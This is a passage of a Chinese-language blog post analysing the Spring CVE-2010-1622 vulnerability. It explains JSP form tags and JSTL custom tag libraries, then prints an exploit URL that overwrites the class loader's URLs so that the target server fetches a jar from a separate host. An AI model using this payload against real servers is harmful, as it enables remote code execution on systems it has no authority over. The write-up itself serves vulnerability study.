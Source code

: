 
例如，当在jsp页面中使用了如下form标签


```text
<form:form commandName="user">

<form:input path="name" />

</form:form>

```


前端渲染出来后就是如下页面：


![picgo2022-04-20-17-35-53.png](../post_images/af71a034550e03f114d59d54bef0668a.png)


其它标签也类似。


### jsp jstl


JSP标准标签库（JSTL）是一个JSP标签集合，它封装了JSP应用的通用核心功能。


JSTL支持通用的、结构化的任务，比如迭代，条件判断，XML文档操作，国际化标签，SQL标签。 除了这些，它还提供了一个框架来使用集成JSTL的自定义标签。


简单理解就是jstl就是一系列的标签库，上边色spring表单标签就是spring内置的jstl,当然我们也可以自定义jstl，cve-2010-1622漏洞最后的命令执行也正是基于这一点来实现的。


关于jstl可以看此教程：[JSP 标准标签库（JSTL）](https://www.runoob.com/jsp/jsp-jstl.html)


关于如何自定义taglib，以及jstl各标签的详细解释可以看这里：


[Custom Tags in JSP Pages](https://docs.oracle.com/cd/E19316-01/819-3669/6n5sg7b50/index.html)


## cve-2010-1622 payload分析


payload如下：


```java
http://localhost:8080/student?class.classLoader.URLs[0]=jar:http://127.0.0.1:8081/spring-jar.jar!/

```
